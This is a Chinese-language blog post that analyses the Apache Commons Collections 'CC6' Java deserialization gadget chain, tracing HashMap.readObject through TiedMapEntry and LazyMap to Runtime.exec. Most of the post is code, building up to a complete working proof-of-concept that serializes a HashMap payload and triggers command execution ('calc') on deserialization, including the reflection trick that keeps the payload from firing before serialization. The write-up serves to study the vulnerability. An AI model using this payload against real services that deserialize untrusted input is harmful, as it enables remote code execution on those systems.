








---
title: "Java反序列化CC6链"
date: 2025-06-07T20:10:46+08:00
summary: "Java反序列化CC6链"
url: "/posts/Java反序列化CC6链/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

参考文章：https://www.cnblogs.com/CVE-Lemon/p/17935937.html

https://infernity.top/2024/04/10/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC6%E9%93%BE/

## 0x01漏洞分析

之前入手反序列化分析了一波CC1链，也算是开始对java反序列化有一个初步认识了，那必须得来分析一下最好用的CC利用链CC6了因为CC6适用的jdk版本更多，并且commons collections 小于等于3.2.1，都存在这个漏洞，所以CC6也算是最好用的链子了

## 0x02影响版本&链子分析

**JDK ≤ 8u76**

**CommonsCollections <= 3.2.1**

### LazyMap#get()

链子的出口依旧是之前的出口

```java
ChainedTransformer.transform()->InvokerTransformer.transform()->Runtime.exec()
```

然后我们来找找ChainedTransformer.transform()的触发，来到了LazyMap的get方法



依旧是通过LazyMap的get方法去触发ChainedTransformer.transform()进而触发InvokerTransformer.transform()

因为之前讲CC1的时候并没有细说这个get方法，所以我们先分析一下LazyMap的get方法

```java
public Object get(Object key) {
    // 1. 检查 key 是否存在于 Map 中
    if (map.containsKey(key) == false) {
        // 2. 如果 key 不存在，调用 factory.transform(key) 生成 value
        Object value = factory.transform(key);
        // 3. 将 (key, value) 存入 Map
        map.put(key, value);
        // 4. 返回新生成的 value
        return value;
    }
    // 5. 如果 key 已存在，直接返回对应的 value
    return map.get(key);
}
```

这个方法实质上是一个"懒加载"，**核心逻辑就是如果key不在Map中，则会自动生成一个值并存入key，否则就会返回已有的值**，这里可以看到是根据factory.transform方法生成value的，所以我们看看factory是否可控

```java
    protected final Transformer factory;
```

是受保护类型的，并不可控，但是我们可以发现这里同样存在着一个跟TransformedMap的decorate一样的decorate方法

```java
public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
```

这里会生成一个LazyMap对象，并且这个方法的静态方法，意味着我们可以直接调用该方法去实例化一个LazyMap对象，进而控制factory的值

所以我们到这为止的poc就是

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        lazyMap.get("1");

    }
}
```



接下来我们继续往前推进寻找入口点

### TiedMapEntry#getvalue()

我们全局找一下get方法的实现，发现太多了，毕竟是复现的，跟着之前的师傅的链子走就行，找到一个TiedMapEntry类



该类中的getvalue方法

```java
    public Object getValue() {
        return map.get(key);
    }
```

这里getValue调用了get方法，但是map是否可控呢？

```java
private final Map map;
```

好吧，私有属性也是不可控的，我们寻找一下构造方法

```java
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

哎，公共方法，那就好处理了，直接用反射去构造一个TiedMapEntry实例化对象

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        Class A = Class.forName("org.apache.commons.collections.keyvalue.TiedMapEntry");
        Constructor constructor = A.getDeclaredConstructor(Map.class, Object.class);
        TiedMapEntry tiedMapEntry = (TiedMapEntry) constructor.newInstance(lazyMap,"1");
        tiedMapEntry.getValue();
    }
}
```



接下来我们找找如何调用getValue方法

### TiedMapEntry#hashCode()

这个比较好找，就在该类下的hashCode方法

```java
public int hashCode() {
    Object value = getValue();
    return (getKey() == null ? 0 : getKey().hashCode()) ^
           (value == null ? 0 : value.hashCode()); 
}
```

这里无条件调用getValue方法，所以直接触发这个方法就行了

总结：**TiedMapEntry的hashCode方法调用了getValue，getValue调用了get方法，所以可以用TiedMapEntry的hashCode方法调用LazyMap的get方法**

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        
        //CC1的后半段
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        
        //CC6
        //反射去获取一个TiedMapEntry对象
        Class A = Class.forName("org.apache.commons.collections.keyvalue.TiedMapEntry");
        Constructor constructor = A.getDeclaredConstructor(Map.class, Object.class);
        TiedMapEntry tiedMapEntry = (TiedMapEntry) constructor.newInstance(lazyMap,"1");
        tiedMapEntry.hashCode();
    }
}
```



接下来寻找谁调用了hashCode方法

### HashMap#hash()

HashMap的hash方法调用了hashCode方法

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

然后key是在HashMap类的readObject方法来的

### HashMap#readObject()

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);
            @SuppressWarnings({"rawtypes","unchecked"})
                Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```



序列化的时候可以用HashMap的put方法传key和value

```java
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

但是HashMap的put方法会提前调用hash方法，导致提前走完流程

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

我们先试一下利用put触发hashCode方法

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"1");
        map.put(tiedMapEntry, "value");
    }

}
```



## 0x03调整调用链

由于HashMap的put方法会调用hash函数导致提前调用hashCode方法，从而在序列化前就命令执行，那么这个问题该怎么解决呢？

在我参考的师傅的文章中讲到一个很神奇的思路，就是说我们利用put设置key的时候先让LazyMap对象的factory值为一个任意的Transformer对象，等设置了key之后再利用反射设置变量修改回原来的ChainedTransformer对象。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),new ConstantTransformer("1"));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");

        //反射修改值
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);

        serialize(hashmap);
        unserialize("CC6.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC6.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

}

```

但是这里没触发是为什么呢？

定位到LazyMap的get方法，这里`map.containsKey(key)`是true。



之前我们就注意到，当我们map没包含这个key的话就会自动生成键值对并传入，这样就会导致反序列化时map里已经存在这个key了，所以不会执行`factory.transform(key)`，从而导致无法命令执行。所以我们需要在put之后手动把这个key删掉

```
lazymap.remove("2");
```

## 0x04最终的poc&&链子

### 最终的链子

```java
HashMap.readObject()
HashMap.hash()+
    TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
        LazyMap.get()
            ChainedTransformer.transform()
                InvokerTransformer.transform()
                    Method.invoke()
                        Runtime.exec()
```

### 最终的poc

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        
        //生成LazyMap对象并传给TiedMapEntry
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),new ConstantTransformer("1"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");
        
        //在put中修改factory，导致不会触发hash，并移除key
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("2");

        //反射修改factory值
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);

        serialize(hashmap);
        unserialize("CC6.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC6.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

}
```
